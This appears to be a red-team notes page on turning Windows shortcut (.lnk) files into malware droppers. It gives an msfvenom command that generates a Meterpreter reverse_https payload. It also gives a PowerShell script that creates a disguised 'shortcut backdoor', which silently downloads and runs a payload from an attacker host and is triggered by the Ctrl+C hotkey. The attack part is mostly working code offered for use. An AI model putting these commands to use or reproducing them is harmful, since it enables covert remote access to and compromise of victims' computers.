 # Manual

> [!INFO]
> Windows shortcut link (`.lnk`) is often referred as **Shell Link**.

## 01 - Custom Icons

```
C:\Windows\System32\msi.dll
C:\Program Files (x86)\Microsoft Office\root\Office16\WINWORD.exe
```

## 02 - Generate Shortcut

### 2.1 - PowerShell

> [!NOTE] Characters Limit
> The **TargetPath** has a limit of 260 characters long. If you're using powershell payload then it's recommended to use `psh-cmd` format instead of `psh`, `psh-reflection`, and `psh-net`.

```
$ msfvenom -p windows/x64/meterpreter/reverse_https lhost=<IP> lport=<PORT> exitfunc=thread -f psh-cmd | sed 's/%COMSPEC% \/b \/c start \/b \/min powershell\.exe -nop -w hidden -e //g' | base64 -d > payload.ps1
```

TODO: Remove timestamps in the .lnk file

```powershell
$WScriptShell = New-Object -ComObject WScript.Shell
$ShortcutPath = "C:\Users\" + $Env:USERNAME + "\Desktop\mal.lnk"
$Shortcut = $WScriptShell.CreateShortcut($ShortcutPath)
$Shortcut.TargetPath = 'conhost.exe'
$Shortcut.Arguments = "--headless powershell.exe -nop -NonI -Nologo -w hidden -c `"IEX ((new-object net.webclient).downloadstring(`'http[s]://<attacker_IP>/payload.ps1`'))`"`""
$Shortcut.Description = "A shortcut backdoor"
$Shortcut.IconLocation = 'shell32.dll,21'
$Shortcut.HotKey = 'CTRL+C' # A hotkey to trigger the payload
$Shortcut.WindowStyle = 7   # 1 - Normal, 3 - Maximized, 7 - Minimized
$Shortcut.WorkingDirectory = "C:\Users\" + $Env:USERNAME + "\Public"
$Shortcut.Save()
```

---
## References

### Backlinks

- [[01 - Capture Hashes via Spoof SMB Shares|Responder: Capture Hashes via Spoof SMB Shares Scenario]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Authentication Relay/Metasploit|Metasploit: Capture Hashes]]

- [[HTA Web Server|Metasploit: HTA Web Server]]

- [[SMB Delivery|Metasploit: SMB Delivery]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/File Attachment/Web Drive-by/Linux/C2 Frameworks|Metasploit: Web Delivery]]

### Source Repositories

- [nobodyatall648: Malicious LNK File Abuse Hotkey Feature](https://github.com/nobodyatall648/Malicious-LNK-File-Abuse-Hotkey-Feature)

- [B00merang-Artwork: Windows 10](https://github.com/B00merang-Artwork/Windows-10)